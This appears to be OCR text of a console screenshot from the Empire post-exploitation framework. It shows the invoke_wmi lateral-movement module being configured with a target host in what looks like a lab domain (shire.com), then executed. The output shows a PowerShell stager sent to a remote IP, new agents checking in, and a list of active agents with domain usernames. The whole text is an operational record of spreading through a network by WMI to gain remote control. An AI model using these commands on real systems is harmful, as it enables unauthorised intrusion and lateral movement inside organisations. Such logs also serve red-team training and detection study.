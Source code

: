 ```
                                                     request (default, none, or other).      
  Password     False                                 Password to use to execute command.     
  Agent        True        MPB3UHD1                  Agent to run module on.                 

FDC01.shire.comhell/lateral_movement/invoke_wmi) > set ComputerName H 
(Empire: powershell/lateral_movement/invoke_wmi) > info   

              Name: Invoke-WMI
            Module: powershell/lateral_movement/invoke_wmi
        NeedsAdmin: False
         OpsecSafe: True
          Language: powershell
MinLanguageVersion: 2
        Background: False
   OutputExtension: None

Authors:
  @harmj0y

Description:
  Executes a stager on remote hosts using WMI.

Options:

  Name         Required    Value                     Description
  ----         --------    -------                   -----------
  Listener     True        https                     Listener to use.                        
  CredID       False                                 CredID from the store to use.           
  ComputerName True        HFDC01.shire.com          Host[s] to execute the stager on, comma 
                                                     separated.                              
  Proxy        False       default                   Proxy to use for request (default, none,
                                                     or other).                              
  UserName     False                                 [domain\]username to use to execute     
                                                     command.                                
  ProxyCreds   False       default                   Proxy credentials                       
                                                     ([domain\]username:password) to use for 
                                                     request (default, none, or other).      
  UserAgent    False       default                   User-agent string to use for the staging
                                                     request (default, none, or other).      
  Password     False                                 Password to use to execute command.     
  Agent        True        MPB3UHD1                  Agent to run module on.                 

(Empire: powershell/lateral_movement/invoke_wmi) > execute
[*] Tasked MPB3UHD1 to run TASK_CMD_WAIT
[*] Agent MPB3UHD1 tasked with task ID 5
[*] Tasked agent MPB3UHD1 to run module powershell/lateral_movement/invoke_wmi
(Empire: powershell/lateral_movement/invoke_wmi) > Invoke-Wmi executed on "HFDC01.shire.com"
[*] Sending POWERSHELL stager (stage 1) to 10.0.10.104
[*] New agent DECFWPHY checked in
[+] Initial agent DECFWPHY from 10.0.10.104 now active (Slack)
[*] Sending agent (stage 2) to DECFWPHY at 10.0.10.104

(Empire: powershell/lateral_movement/invoke_wmi) > agents

[*] Active agents:

 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
 ----     -- -----------     ------------      --------                -------            ---    -----    ---------            ----------------
 2MES3XN6 ps 172.18.39.105   IT001             SHIRE\pgustavo          powershell         4312   5/0.0    2019-03-19 14:22:50  https           
```
